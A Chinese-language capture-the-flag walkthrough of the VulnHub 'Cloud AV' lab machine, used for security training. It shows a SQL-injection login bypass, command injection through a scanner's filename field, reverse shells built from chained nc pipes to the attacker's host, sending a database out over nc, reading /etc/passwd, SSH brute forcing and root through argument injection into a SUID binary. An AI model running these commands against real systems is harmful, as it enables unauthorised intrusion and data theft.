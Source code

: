 Week2

---



>**Name:** BoredHackerBlog: Cloud AV
>
>**Date release:** 29 Mar 2020
>
>**Author**: [BoredHackerBlog](https://www.vulnhub.com/author/boredhackerblog,683/)
>
>**Series**: [BoredHackerBlog](https://www.vulnhub.com/series/boredhackerblog,295/)
>
>**Download：**https://download.vulnhub.com/boredhackerblog/easy_cloudantivirus.ova
>
>**Description:**
>
>Cloud Anti-Virus Scanner! is a cloud-based antivirus scanning service.
>
>Currently, it's in beta mode. You've been asked to test the setup and find vulnerabilities and escalate privs.
>
>**Difficulty:** Easy
>
>**Tasks involved:**
>
>- port scanning
>- webapp attacks
>- sql injection
>- command injection
>- brute forcing
>- code analysis
>
>**Virtual Machine:**
>
>- Format: Virtual Machine (Virtualbox OVA)
>- Operating System: Linux
>
>**Networking:**
>
>- DHCP Service: Enabled
>- IP Address Automatically assign
>
>This works better with VirtualBox rather than VMware.
>
>

## 一、信息收集

### 1.主机发现

```
ifconfig
```

![image-20211009095714305](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009095714305.png)

kali的IP为10.0.2.4

对10.0.2.0/24网段内的IP发送包进行探测发现![image-20211009095857623](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009095857623.png)

10.0.2.7**返回数据**，说明**存活**

### 2.端口扫描

```
sudo nmap -p- 10.0.2.7
```

![image-20211009101228440](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009101228440.png)

结果显示目标靶机**开放了22,8080端口**

### 3.端口服务扫描发现

```
sudo nmap -p22,8080 -sV 10.0.2.7
```

![image-20211009101354083](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009101354083.png)

目标系统为Ubuntu 且开放了22端口为**SSH服务**

8080端口的Werkzeug是基于Python2.7环境

补充：Werkzeug是一个WSGI工具包，Werkzeug可以作为一个 Web 框架的底层库，因为它封装好了很多 Web 框架的东西，例如 Request，Response 等等。如 Flask 框架就是以Werkzeug 为基础开发的。

## 二、漏洞发现与利用

### 1.访问页面

```
访问：http://10.0.10.7:8080
```

![image-20211009102035206](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009102035206.png)

页面如图为“云防病毒平台”，并提示需提交邀请码才能登录使用

那么如何突破这个页面？

### 2.测试SQL注入/爆破

尝试在页面文本框内**提交信息（特殊符号）**来服务端后端有没有对用户提交的**敏感字符**（不同语言环境下存在不同作用/意义的字符）进行过滤，若未过滤则有可能**发生报错**或会**返回错误信息**。

配置浏览器代理，使用BurpSuite对**符号**进行检测

![image-20211009103133428](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009103133428.png)

![image-20211009104716945](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009104716945.png)

![image-20211009104651517](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009104651517.png)

![image-20211009104834953](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009104834953.png)

对页面进行测试后，**通过长度判断**，发现输入双引号(")可能产生了闭合，改变原语句执行语义，导致报错，报错页面如下图，**判断存在注入漏洞**

![image-20211009105012567](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009105012567.png)

发现报错页面存在**疑似查询语句**

'select * from code where password="' + password + '"'

省去单引号

select * from code where password=" + password + "

尝试通过此语句构造payload

![image-20211009105106411](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009105106411.png)

输入**1" or 1=1--+**提交后成功利用注入漏洞跨过了“invite code”验证，进入“云防病毒平台”页面

![image-20211009105148438](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009105148438.png)

### 3.命令注入

可以发现这个页面的所显示的信息是ls -l命令执行的结果，在结合页面下的"File Name"文本框 和"Scan!"提交按钮，可以联想到页面背后的功能实现过程大概是一个“病毒攻击/平台”对文件扫描的功能，代码逻辑可能类似如下

```
xxxScanner 文件名
```

那么是否可以产生使用**管道符（|）**连接执行其他命令呢？下面进行尝试

```
hello | ls
```

![image-20211009142912228](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009142912228.png)

```
hello | id
```

![image-20211009142744487](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009142744487.png)

在等待服务端响应后，确实执行了ls和id，并在页面返回了相应的结果，即**存在命令注入漏洞**，那么是否可以反弹shell？

思路1：结合先前扫描结果，可以得到目标系统的语言环境是Python2.7.15，故可以利用Python反弹shell

思路2：利用nc反弹shell

(为了学习更多的攻击方法，选用思路2)

### 4.使用nc建立连接

确认目标系统**是否存在nc**命令

```
hello | which nc
```

![image-20211009143025187](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009143025187.png)

补充：**| 表示管道符，上一条命令的输出，作为下一条命令参数**

目标系统**存在nc**命令，可正常进行后续操作

在Kali端：

```
ip a
```

![image-20211009143140893](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009143140893.png)

确认Kali地址为10.0.2.4

nc监听端口4444

```
nc -nvlp 4444
```

![image-20211009143219519](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009143219519.png)

在浏览器端：

使用nc反弹连接kali端的监听，在实验-e参数执行一个shell终端

```
hello | nc 10.0.2.4 4444 -e /bin/sh
```

![image-20211009143635524](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009143635524.png)

执行后，并没有监听端口成功连接，怀疑该系统的系统版本下的nc**不支持-e参数**，所以这里我们先去除-e参数，尝试连接

```
hello | nc 10.0.2.4 4444 
```

![image-20211011150457393](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211011150457393.png)

成功建立连接，尝试输入命令

```
ls
```

```
id
```

![image-20211009145019507](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009145019507.png)

结果发现不能执行来返回结果

故**采用多个**管道符（|），此法暂且称为“**nc管道符串联**”

在Kali上同时监听5555和6666端口：

```
nc -nvlp 5555
```

```
nc -nvlp 6666
```

![image-20211009145202343](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009145202343.png)

在浏览器端 采用“nc管道符串联”：

```
hello | nc 10.0.2.4 5555 | /bin/bash | nc 10.0.2.4 6666 
```

![image-20211009145552070](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009145552070.png)

kali端显示两个端口都成功连接

### 5.信息收集/ssh爆破

尝试在5555端口监听窗口输入命令，发现执行结果会在6666端口监听窗口显示，成功

![image-20211009145754300](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009145754300.png)

登录到目标系统后，查看文件

```
ls -l
```

![image-20211009151033812](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009151033812.png)

查看app.py

```
cat app.py
```

![image-20211009151112767](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009151112767.png)

>from flask import Flask, render_template, request, session
>import sqlite3
>import subprocess
>import os
>
>conn = sqlite3.connect('database.sql',check_same_thread = False)
>c = conn.cursor()
>
>app = Flask(__name__)
>
>@app.route('/')
>def index():
>    return render_template('index.html')
>
>@app.route('/login', methods=['POST'])
>def login():
>    password = request.form['password']
>    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
>        session['logged_in'] = True
>        return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
>    else:
>        return "WRONG INFORMATION"
>
>@app.route('/scan')
>def shop():
>    if session.get('logged_in'):
>        filelist = subprocess.Popen("ls -l /home/scanner/cloudav_app/samples", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE).stdout.read()
>        return render_template('scan.html',filelist=filelist)
>    else:
>        return '<meta http-equiv="refresh" content="0; url=/" />'
>
>@app.route('/output', methods=['POST'])
>def output():
>    if session.get('logged_in'):
>        filename = request.form['filename']
>        scan_results = subprocess.Popen("clamscan "+filename, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE).stdout.read()
>        return "<pre>" + scan_results + "</pre>"
>    else:
>        return '<meta http-equiv="refresh" content="0; url=/" />'
>
>if __name__ == "__main__":
>    app.secret_key = os.urandom(12)
>    app.run(host='0.0.0.0',port=8080, debug=True)
>
>

app.py中并没有可以直接有关提权的信息

查看database.sql

```
file database.sql
```

![image-20211009151631066](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009151631066.png)

发现数据库版本信息SQLite 3.x，再结合之前sql注入时的页面返回信息

![image-20211009152025908](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152025908.png)

版本信息一致，猜测是Web应用程序服务端的数据库，有可能有隐私数据，所以就有必要查看

```
sqlite
```

尝试执行发现没有相关指令

![image-20211009151902078](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009151902078.png)

即**服务端无法解析**sqlite文件，那是否可以将下载到kali本机上，使用kali本机上sqlite的执行环节来查看文件database.sql

在Kali端新窗口开启nc监听7777端口，将接收到的所有**连接请求都转发到**db.sql文件

```
nc -nvlp 7777 > db.sql
```

![image-20211009152136352](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152136352.png)

在监听5555端口的窗口内，连接10.0.2.4（kali）的7777端口**再通过重定向**将database.sql传输到nc通道内

```
nc 10.0.2.4 7777 < database.sql
```

![image-20211009152503151](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152503151.png)

database.sql文件不大，很快传输完Ctrl+C结束

![image-20211009152617144](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152617144.png)

```
ls
```

![image-20211009152646495](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152646495.png)

使用kali的sqlite3环境下查看db.sql

```
sqlite3
```

```
.open db.sql
```

```
.database
```

```
.dump
```

![image-20211009152831159](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009152831159.png)

显示只有一个字段password,下方的INSERT语句向数据库添加了几个密码，那是否可以登录目标系统？回想发现阶段目标系统上开启ssh服务，所以进行尝试，现在寻找目标系统上的用户名

```
cat /etc/passwd
```

![image-20211009153106205](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009153106205.png)

passwd文件中数据很多，需要做筛选过滤

筛选可以用**shell权限**登录系统的账号

```
cat /etc/passwd | grep /bin/bash
```

![image-20211009153238876](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009153238876.png)

将用户名和密码都分别生成字典 准备进行爆破

```
vi user.txt
```

![image-20211009153516608](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009153516608.png)

![image-20211009153446916](Week2.assets/image-20211009153446916.png)

```
vi pass.txt
```

![image-20211009153702323](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009153702323.png)

![image-20211009153648892](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009153648892.png)

使用Hydra爆破

```
hydra -L user.txt -P pass.txt ssh://10.0.2.7
```

![image-20211009154535990](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009154535990.png)

破解完成，失望，没有正确结果，这种攻击失败了，尝试别的攻击手段

### 6.SUID提权

回到目标机目录下，尝试查看目录下别的文件

```
ls
```

```
ls -l 
```

```
ls samples
```

发现这些文件就是Web界面那些可以进行防病毒扫描的文件

![image-20211009160341754](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009160341754.png)

暂时没有发现有帮助的信息

```
ls templates
```

![image-20211009160512163](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009160512163.png)

看到template下有两个**Web开发页面模板文件** index.html scan.html，但也没有有帮助的信息

查看查看的目录，确认现在所在目录

```
pwd
```

![image-20211009164418370](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009164418370.png)

去上一级目录，/home/scanner

```
cd .. 
```

```
ls
```

```
ls -la     #查看隐藏文件
```

```
ls- l
```

在隐藏文件中并未发现有直接帮助的文件，但发现了.c文件

![image-20211009165417380](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009165417380.png)

update_cloudav.c可能就是cloudav.app程序的C语言源代码，且可以看到这个程序的权限是**可执行的**，s也代表有suid权限位，且属主是root账号，当执行该程序时会**默认继承该程序属主的权限**

设想：如果可以执行这个update_cloudav.c，是否可以通过某种命令注入的方法，**利用suid权限**带来的root权限来**执行某些系统命令来反弹shell**，来**完成提权**？

```
cat update_cloudav.c
```

>#include <stdio.h>
>
>int main(int argc, char *argv[])
>{
>char *freshclam="/usr/bin/freshclam";
>
>if (argc < 2){
>printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
>return 1;
>}
>
>char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
>sprintf(command, "%s %s", freshclam, argv[1]);
>setgid(0);
>setuid(0);
>system(command);
>return 0;
>
>}

包含了一些**头文件**，定义了一些**变量**，变量指向了操作系统中的文件freshclam，freshclam是给开源杀毒软件cloudav的病毒库升级的软件。这个程序**定义了一个执行参数**，如果程序在执行过程中**不包含**这个参数的话就会**显示信息**，要求提交一个命令行的参数，这样freshclam这个程序才能正常执行，完成病毒库的更新。如果正确使用参数，那么就会正常的运行cloudav，执行病毒库的更新。

总结一下：当我们**执行update_cloudav.c时**，会**调用**了cloudav.app的**病毒更新程序freshclam**，但在执行过程中**要求要有运行参数。**

先测试一个参数a

```
./update_cloudav a
```

![image-20211009165635210](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009165635210.png)

出现日志文件**报错**，但是不确定是否会对执行有影响，继续尝试

利用管道符串联

在kali端: 

```
nc -nvlp 7777 
```

```
nc -nvlp 8888
```

![image-20211009165823593](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009165823593.png)

在控制目标机端：

```
./update_cloudav "a | nc 10.0.2.4 7777 | /bin/bash | nc 10.0.2.4 8888"
```

**双引号作用：让./upadte_cloudav程序在执行的时候，认为双引号内的都是参数，从而继承这个程序它的suid位的权限**

```
id
```

![image-20211009165854532](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009165854532.png)

成功拿到目标系统root权限！

